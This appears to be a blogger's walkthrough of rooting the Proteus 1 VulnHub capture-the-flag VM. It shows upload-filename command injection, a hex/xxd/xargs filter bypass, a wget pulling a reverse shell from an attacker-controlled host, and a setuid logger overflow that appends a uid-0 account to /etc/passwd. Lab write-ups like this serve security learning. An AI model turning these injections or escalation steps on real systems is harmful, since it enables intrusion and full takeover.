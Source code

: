 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification, I use nmap.  

`nmap 192.168.2.0/24 -sP Starting Nmap 7.70 ( https://nmap.org )  `  
`Nmap scan report for Proteus (192.168.2.180)Host is up (0.23s latency).`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

> PORT     STATE SERVICE REASON         VERSION  
> 22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:   
> |   2048 40:3e:c5:6f:dc:63:c5:af:43:51:28:5c:05:f5:98:c2 (RSA)  
> | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwD5BkuUf9zDQ1+TkrK0K9VffoH9cCm9OPa215nFtfOejQkf7k3ppxkKqZxlbsOZje5pp9y5gv4EMeAatn1BL2KbMlT96UW0tcFyC8uRJdFITpd1LnzusucVvpP5qa29gyNVJrx/scsdE9bIwB++toL4kSbX40kbUA4u+26qqKXyPaaO7SMo0VxM+7E4l5ZXIV9kfVo6SYcCTHo/WG48iSrbe1UGQg3VR0xxtU9OZg/oiS7BHvqracFTn71Obp+KaN6KA8R3NKQcxA+FSlr1jOVmr3q1b6++RAij4jajwafC1iu0tcy9WkhTrXBLbtmPJ2WI4/8cKO4zhuW0Z2eieD  
> |   256 bb:9c:b0:3c:ff:48:8a:2b:37:d2:fe:2e:78:ce:8c:a9 (ECDSA)  
> | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFLxp5pS3QOLUV+Mfsyeak4GLeciDrUVshZbJEzKKGu/IPOxzNzkVna0IcfGCyRfzfJp1/R6I3k4CdKj6wD2Xo4=  
> |   256 ff:85:4e:91:29:da:d1:1b:b3:11:26:5b:d8:c0:7a:f8 (EdDSA)  
> |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDA1x1iCaJYag2vwfBSvDU1ffJ+WtKs4kWCJe/mLxBFm  
> 80/tcp   open  http    syn-ack ttl 64 Apache httpd  
> | http-methods:   
> |_  Supported Methods: GET HEAD  
> |_http-server-header: Apache  
> |_http-title: Proteus | v 1.0  
> 5355/tcp open  llmnr?  syn-ack ttl 1  

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. 

![Proteus_home](/imgs/proteus_homepage.png)

First notes are that there is a file upload, which is always fun to play with, and a login. 
Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something 
that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to 
the /samples page. 

![Proteus_successful_upload](/imgs/default_sucessful_upload.png)

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. I can also 
see under objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. 

![Burp_submit_request](/imgs/burp_submit_request.png)

I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the 
filename parameter. filename="file.bin;id" works when you reload your webpage. 

![Id_cmd_inj_test](/imgs/id_cmd_inj_test.png)

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a 
random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we 
can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails 
obviously when testing. 

**Good chars**

![good_chars](/imgs/good_chars.png)

**Bad chars**

![bad_chars](/imgs/bad_chars.png)

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port 
with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to 
pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the 
execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). 
I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, 
but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad 
I had a version (4.7.0) that still had it. 

## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my work and possibly handle other use 
cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 
'cat /etc/passwd'

![etc_passwd_cmd_injection](/imgs/etc_passwd_cmd_injection.png)

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it 
somewhere else. wget supports this with -O. `wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was 
successful, or you can 'ls' the /tmp directory. 

![already_exec_shell](/imgs/already_executable_shell.png)

So now all I have to do is throw up a listner and execute the shell.

![connect](/imgs/successful_rshell_connect.png)

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that 
can be used for the web page. There is even a RSA private key (password protected) (see some stuff in /imgs/interesting_snip\*). Keep 
exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? 
The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 

![logger_test](/imgs/logger_test_input.png)

Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interesting 
effects. 

![overflow](/imgs/logger_overflow.png)

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as 
root with a certain space for a payload. A few things to note about the overflow: 
 - it starts user input with a new line
 - the user input is appended to the end of the file
 - the user has limited space for the payload
 - the user has limited space in the file name for the path and file
 - the pattern offset is 456 based on the name of the file created when I hit the first overflow 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work.  
`def pad(len):`  
`    pad="A"*len`  
`    return pad`  
  
`def gen():`  
`    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite`  
`    print payload`  

I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that 
the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is 
add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. 

Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the : shell : 
section of /etc/passwd and the machine didn't know what to give me. 

![almost_final_payload](/imgs/almost_final_userInput_payload.png)

![failed_login](/imgs/failed_proteus_login_root.png)
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`

![fina_payload](/imgs/final_userInput_payload.png)
 
Now to su <username>, type the password, and pop to a root shell.
 
![proteus_root](/imgs/successful_proteus_login_root.png)
 
Now you can find the flag and display it. 
 
![flag](/imgs/flag.png)
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. 
The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute 
rights (see nice_proteus_exec_help\* in imgs). 
Crafting the original injection is probably the hardest part. Now onto the next one.
